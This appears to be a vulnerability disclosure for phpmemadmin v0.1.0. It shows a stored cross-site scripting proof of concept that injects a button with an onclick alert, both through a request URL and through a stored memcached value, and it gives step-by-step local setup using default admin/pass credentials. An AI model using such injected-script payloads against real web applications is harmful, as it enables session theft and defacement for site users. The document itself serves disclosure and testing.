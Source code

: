 # PRODUCT
name:phpmemadmin
version:v0.1.0
url:https://github.com/clickalicious/phpmemadmin/tree/v0.1.0

# payload 

```
http://127.0.0.1:9999/index.php?action=4&host=127.0.0.1:11211&set=111&value=111<button onclick=alert`111`>111</button>
```

# step to triger the vuln
#install 
### download
git clone https://github.com/clickalicious/phpmemadmin

### composer install
composer install

### cfg
cd app
cp .config.dist .config

### cfg file
```
{
  "username": "admin",
  "password": "pass",
  "timeout": -1,
  "cluster": {
    "name": "Cluster",
    "thresholds": {
        "notice": 50,
        "warning": 75,
        "error": 95
    },
    "hosts": [
      {
        "host": "127.0.0.1",
        "port": 11211
      }
    ]
  },
  "render": {
    "auto": true
  },
  "format": {
    "date": "Y-m-dTH:i:s"
  },
  "updatecheck": false
}


```

### run
cd web 
php -S 127.0.0.1:9999

### login
access 27.0.0.1:9999
401 login
admin/pass

### triger vuln
go to data
click `Create new key/value pair`
key 111
ok 
value
```
111<button onclick=alert`111`>111</button>
```

### vuln triger
[![](./img/1.png)](./img/1.png)